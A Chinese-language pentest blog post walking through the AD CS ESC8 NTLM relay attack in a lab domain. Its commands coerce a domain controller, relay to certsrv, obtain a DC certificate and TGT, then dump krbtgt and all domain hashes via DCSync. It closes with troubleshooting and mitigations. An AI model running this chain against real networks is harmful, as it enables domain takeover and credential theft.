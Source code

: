 ```yaml
---
title: "AD CS relay attack-ESC8"
date: 2023-02-01 22:43:23 +0800
category: 渗透测试
tags: [内网,渗透测试,ADCS,域]
excerpt: AD CS relay attack-ESC8
---
```


## 原理
漏洞利用原因：
由于ADCS的http证书接口没有启用NTLM中继保护，因此其易受NTLM Relay攻击。而且Authorization HTTP 标头明确只允许通过 NTLM 身份验证，因此Kerberos协议无法使用。因此，攻击者可以利用NTLM Relay攻击ADCS证书服务。

## 攻击过程
+ 都是在域机器中操作的, 工作组中没试成功, 按理说工作组也可以
### 环境
| 机器 | ip | 说明 |
| ---- | ---- | ---- |
| dc | 192.168.1.110 | 域控 |
| ca2016 | 192.168.1.116 | 证书服务器 |
| kali | 192.168.1.114 | 中继服务器 |
| ca | 192.168.1.113 | 域内攻击机 |
### 确定证书服务器(域内攻击机)
```
certutil 
certutil -config - -ping
certutil  -ca
```
![image-20220930131046544](imgs/AD CS relay attack-ESC8/image-20220930131046544.png)
### 确定证书服务器是否开启NTLM认证
```shell
curl http://ca2016.shi.com/certsrv/ -I
```
![图片](/assets/posts/AD CS relay attack-ESC8/640.jpeg)
### 开启中继(kali)
> 配置hosts或者指定IP
```
ntlmrelayx.py -debug -smb2support --target http://ca2016.shi.com/certsrv/certfnsh.asp  --adcs --template DomainController
```

### 强制域控认证(域内攻击机或者kali都行)
+ 域内攻击机
```
# 打印机bug
spoolsample.exe 192.168.1.110 192.168.1.114
//或者
python3 printerbug.py mark/hacker@dcip  kaliip

# EfsRpc
petitpotam.exe attackip dcip
//或者
python3 PetitPotam.py    kali ip   dc ip  
//或者mimikatz
misc::efs /server:域控IP /connect:kali
//powershell
Import-Module .\Invoke-Petitpotam.ps1
Invoke-Petitpotam -Target 域控IP -CaptureHost kali

```
### 获得证书(kali),请求TGT(域内攻击机)
![image-20220930133025850](/assets/posts/AD CS relay attack-ESC8/image-20220930133025850.png)
+ kekeo
```
base64 /input:on
tgt::ask /pfx:获得的base64证书 /user:DC$  /ptt
```
+ rubeus:
```
//注入票据
Rubeus.exe asktgt /user:DC$ /certificate:获得的base64证书 /domain:shi.com /dc:10.10.10.130 /ptt
//或者导出票据(票据可以在非域内机器上使用)
Rubeus.exe asktgt /user:DC$ /certificate:获得的base64证书 /outfile:ticket.kirbi
```
![image-20220930133203564](/assets/posts/AD CS relay attack-ESC8/image-20220930133203564.png)
### 查看票据
`klist`
![image-20220930134048530](/assets/posts/AD CS relay attack-ESC8/image-20220930134048530.png)
### 使用票据
#### mimikatz.exe
```
#查看kerberos票据
kerberos::list

privilege::debug
#导出krbtgt用户的hash
lsadump::dcsync /user:krbtgt /csv /domain:shi.com /dc:10.10.10.130
#导出域管用户的hash
lsadump::dcsync /user:administrator /csv /domain:shi.com
#导出域内所有hash
lsadump::dcsync /all /csv /domain:shi.com
```
#### impacket
> 需要先将Rubeus导出的票据ticket.kirbi进行转换
```
python3 ticketConverter.py ticket.kirbi dc.ccache
export KRB5CCNAME=dc.ccache
//需要配置hosts  dc的IP
secretsdump.py -no-pass -k -dc-ip 192.168.1.110 -target-ip 192.168.1.110 dc
```

## 排错
### KRB-ERROR (62) : KDC_ERR_CLIENT_NOT_TRUSTED
感谢GentilKiwi的推文，我们可以通过在域控制器上运行以下内容来修复此问题。
https://twitter.com/gentilkiwi/status/1419772619004448770
`certutil -pulse`
### KRB-ERROR (16) : KDC_ERR_PADATA_TYPE_NOSUPP
https://support.citrix.com/article/CTX218941
当您尚未将域控制器身份验证证书导入域控制器时，通常会出现此错误。Citrix在此详细介绍了此过程。
简而言之，进入您的DC并打开MMC。在MMC中，为计算机帐户添加证书加载项并请求域控制器身份验证证书。
![img](/assets/posts/AD CS relay attack-ESC8/image-22.png)
解决方案
您需要在所有域控制器上拥有域控制器身份验证证书。要注册新证书，请按照以下步骤操作。
在域控制器上，打开 mmc。
单击文件，单击添加/删除管理单元。
选择证书，单击添加，然后选择计算机帐户。
展开证书（本地计算机），右键单击个人，单击所有任务，然后单击请求新证书。
按下一步。
选择域控制器身份验证并按注册。
注意：如果您在域控制器证书 mmc 中的 Auto Enrollment 上没有看到域控制器身份验证，则需要转到证书颁发机构服务器并将域控制器添加到域控制器身份验证模板的安全性中并授予 AutoEnroll 权限。

注意：如果您有多个域控制器，管理员需要确保为用户进行证书验证的 DC 应该在个人存储中具有域控制器身份验证证书。
+ 另一个解决方法
解决打开组策略，计算机配置\Windows 设置\安全设置\本地策略\安全选项，找到配置 Kerberos 允许的加密类型，将下面全部勾选即可(https://www.cnblogs.com/websecyw/p/15070423.html)

## 防御
 + 在 IIS 管理器->默认站点->certsrv 选项中启用需要 SSL
 + 启用扩展保护（在 certsrv->authentication 下）
 + 通过设置 certsrv->providers->negotiate:kerberos 在 ADCS 服务器上为 IIS 禁用 NTLM
https://support.microsoft.com/en-gb/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429